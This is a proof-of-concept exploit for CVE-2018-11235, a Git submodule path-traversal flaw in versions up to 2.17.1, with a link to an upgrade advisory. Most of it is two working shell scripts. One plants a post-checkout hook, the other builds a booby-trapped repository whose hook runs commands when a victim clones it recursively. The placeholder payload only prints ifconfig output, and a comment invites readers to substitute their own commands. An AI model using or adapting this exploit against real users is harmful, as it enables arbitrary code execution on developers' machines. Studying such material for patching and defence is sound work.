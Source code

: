 # CVE-2018-11235

# Exploit Title:  Git (code execution)
# Date: 2018-05-29
# Exploit Author: Jameel Nabbo
# Website: jameelnabbo.com >
# Vendor Homepage: https://github.com/git/git 
# CVE: CVE-2018-11235
 #Version:  <=2.17.1 
# Tested on Kali Linux
 
 
P0C:
 
Create two files:
pwned.sh: the file which will contain our commands to be executed 
commit.sh the fole which contain a normal build with a bit of calls to our pwned.sh file
 
add the follwing to Pwned.sh:
#!/bin/sh
cat << EOF
 
#here we can put our lovely commands
Exploited! : $(ifconfig)
 
EOF
 
#--------
 
Add the follwing to commit.sh file:
#!/bin/sh
 
set -e
 
repo_dir="$PWD/repo"
#change it to any other Repo
repo_submodule='https://github.com/JameelNabbo/SmartWorm'
 
git init "$repo_dir"
cd "$repo_dir"
git submodule add "$repo_submodule" pwned
mkdir modules
cp -r .git/modules/pwned modules
cp ../pwned.sh modules/pwned/hooks/post-checkout
git config -f .gitmodules submodule.pwned.update checkout
git config -f .gitmodules --rename-section submodule.pwned submodule.../../modules/pwned
git add modules
git submodule add "$repo_submodule"
git add SmartWorm
git commit -am pwned
echo "All done, now \`git clone --recurse-submodules \"$repo_dir\" dest_dir\`”
 
 
——————
Solution:
https://www.edwardthomson.com/blog/upgrading_git_for_cve2018_11235.html
